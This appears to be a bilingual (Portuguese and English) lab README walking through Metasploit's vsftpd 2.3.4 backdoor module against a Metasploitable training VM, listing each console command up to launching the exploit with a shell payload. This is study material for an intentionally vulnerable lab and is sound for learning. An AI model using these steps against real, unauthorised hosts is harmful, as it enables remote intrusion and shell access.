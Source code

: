 # Explorando a ferramenta 'metasploit' do Kali Linux | Vulnerabilidade FTP

## Ferramentas utilizadas:
> Máquina virtual Metasploitable Linux <br>
> Ferramenta Metasploit

###

[PT-BR]  

1. Altere para o usuário root e digite o comando 'msfconsole' no terminal;  

![results](metasploit_ftp.png)  

  
2. Use `>search "vsftpd"` para buscar por exploits do "vsftpd";
3. Use `>info exploit/unix/ftp/vsftpd_234_backdoor` para obter mais informações sobre esse exploit;
4. Use `>use exploit/unix/ftp/vsftpd_234_backdoor` para utilizar esse exploit;  

![results](metasploit_ftp_2.png)  


5. Insira o comando `>show options` para mostrar a configuração do exploit;
6. Configure o IP da máquina Metasploitable em: `>set rhosts (endereço IP)`;
7. Insira o comando `>show options` para mostrar as novas configurações do exploit;  

![results](metasploit_ftp_3.png)  


9. Use `>set payload/cmd/unix/interact` para definir o payload para o exploit;
10. Use `>exploit` para executar o exploit.  

![results](metasploit_ftp_4.png)  


### Exemplo de resultados:  

![results](metasploit_ftp_5.png)  



# Exploring the Kali Linux 'metasploit' tool | FTP Vulnerability

## Tools used:
> Metasploitable Linux VM <br>
> Metasploit tool

###

[EN-US]
1. Switch to the root user and enter the 'msfconsole' command in the terminal;
2. Use <code>>search "vsftdpd"</code> to search for "vsftpd" exploit;
3. Use <code>>info exploit/unix/ftp/vsftpd_234_backdoor</code> for more info about this exploit;
4. Use <code>>use exploit/unix/ftp/vsftpd_234_backdoor</code> to use this exploit;
5. Insert <code>>show options</code> command to show the exploit configuration;
6. Set the metasploitable machine IP in: <code>>set rhosts (ipaddress)</code>;
7. Insert <code>>show options</code> command to show the new exploit configs;
8. Use <code>>set payload/cmd/unix/interact</code> to set the payload for the exploit;
9. Use <code>>exploit</code> to execute the exploit.

### Results example:



